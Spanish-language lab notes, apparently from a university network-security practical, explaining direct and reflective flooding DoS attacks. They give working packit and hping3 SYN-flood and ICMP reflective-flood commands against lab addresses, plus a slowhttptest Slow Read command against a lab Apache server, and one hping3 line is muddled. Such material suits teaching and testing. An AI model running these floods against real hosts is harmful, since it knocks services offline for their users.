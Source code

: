 - **Direct attack:** Envío masivo de paquetes de manera directa a la víctima (la dirección origen es normalmente falsificada). Ejemplos: Ping of Dead, TCP SYN Flood….
- **Reflective flooding attack:** Se utilizan nodos intermedios como amplificadores (routers, servidores web, DNS …). El atacante envía paquetes que requieren respuesta a los amplificadores con ip origen la ip de la víctima ( los amplificadores responderán masivamente a la víctima). Ejemplos: SMURF, FRAGGLE…

###### Herramientas:
`packit:` Inyecta, manipula y monitoriza tráfico ip.
`hping3`: Añade funcionalidades a ping (spoofing, inyección de paquetes …) Direct attack: Inyectar muchos paquetes TCP por el puerto 22 (ssh) con el flag SYN activado,desde una ip aleatoria a la víctima.

```shell
packit -c 0 -b 0 -s 10.10.102.Y -d 10.10.102.X -F S -S 1000 -D 22
# -c : num total de paquetes a enviar (0 indica todos los que pueda).
# -b : num de paquetes a inyectar cada intervalo de tiempo (especificado por -w y por defecto
```

```shell
hping3 --rand-source -p 80 -S --flood 10.10.102.X
# --rand-source: direcciones ip aleatorias.
# -S : flag SYN activo.
# --flood : envía paquetes todo lo rápido que pueda.
```

- **Reflective flooding attack:** Inyectar paquetes ICMP-Echo Request con ip destino todas las redes de la LAN e ip origen la víctima. Todas las máquinas enviarán ICMP-Reply a la víctima.

```shell
packit -sR -d 10.10.102.233 -c 0 -b 0 -F S -S 80 -D 22 -sR # ip random.

hping3 --icmp 10.10.102.X --rand-dest --flood 10.10.102.X 10.10.102.X --rand-dest # X será un número aleatorio 0 - 255
```

#### m) Ataque un servidor apache instalado en algunas de las máquinas del laboratorio de prácticas para tratar de provocarle una DoS. Utilice herramientas DoS que trabajen a nivel de aplicación (capa 7). ¿Cómo podría proteger dicho servicio ante este tipo de ataque? ¿Y si se produjese desde fuera de su segmento de red? ¿Cómo podría tratar de saltarse dicha protección?

```shell
slowhttptest -c 1000 -g -X -o slow_http_stats -r 200 -w 512 -y 1024 -n 5 -z 32 -k 3 -u http://10.11.49.97 -p 3
```

- `slowhttptest`
	- H Starts slowhttptest in SlowLoris mode, sending unfinished HTTP requests.
	- B Starts slowhttptest in Slow POST mode, sending unfinished HTTP message bodies.
	- X Starts slowhttptest in Slow Read mode, reading HTTP responses slowly
	- c 1000 -> Número de conexiones máximas
	- g -> Genera un Flow chart
	- X -> Activa slow_read_stats (Tipo de ataque, mantener el máximo de conexiones activas para joder bien al servidor)
	- o fichero -> Genera un html con los parámetros del test
	- r 200 -> Conexiones
	- w 512 -> Rango de bytes del Windows size
	- y -> Fin del rango de bytes del Windows size
	- n -> intervalos de segundos
